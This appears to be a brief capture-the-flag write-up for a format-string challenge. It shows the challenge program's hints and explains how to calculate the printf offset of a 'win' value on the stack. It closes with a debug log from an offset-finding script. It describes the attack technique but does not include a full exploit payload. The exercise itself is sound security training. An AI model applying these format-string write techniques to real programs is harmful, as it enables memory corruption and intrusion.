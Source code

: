 ```perl

The win value in the .bss is located at 0x404170! Remember to write this in little endian in your format string.
Remember, you can swap %n with %lx to see what address you will be writing into to make sure you have the.correct offset.

The secret value is located on the stack, 0x130 bytes after the start of your format string!

I will now read up to 256 bytes. Send your data!
asd
Received 4 bytes!

I will now call printf on your data!

asd

And now, let's check the win value!
Checking win value...
... desired win value: 0x1bd0de
... written win value: 0
... INCORRECT!
### Goodbye!
```

The explanation is telling everything needed. 
The secret value **user_input+0x130** . That means offset+(0x130/8) is the offset of *win value*. 
Giving hint special formatter of printf `*`

**Note:** The desired value dynamically changed. So lame way doesn't work. (lol)
#### find offset and padlen values

User input starts at offset: **24**.
Win values offset: **24+(0x130/8) = 62**.

```perl
[DEBUG] Received 0xf8 bytes:
    b'Received 33 bytes!\n'
    b'\n'
    b'I will now call printf on your data!\n'
    b'\n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161616261616161END\n'
    b"And now, let's check the win value!\n"
    b'Checking win value...\n'
    b'... desired win value: 0x2bd41c\n'
    b'... written win value: 0\n'
    b'... INCORRECT!\n'
    b'### Goodbye!\n'
[*] Found format string offset: 24
[+] User input starts at  : 24
[+] Needed pads           :0
[+] Numbwritten           :0
```
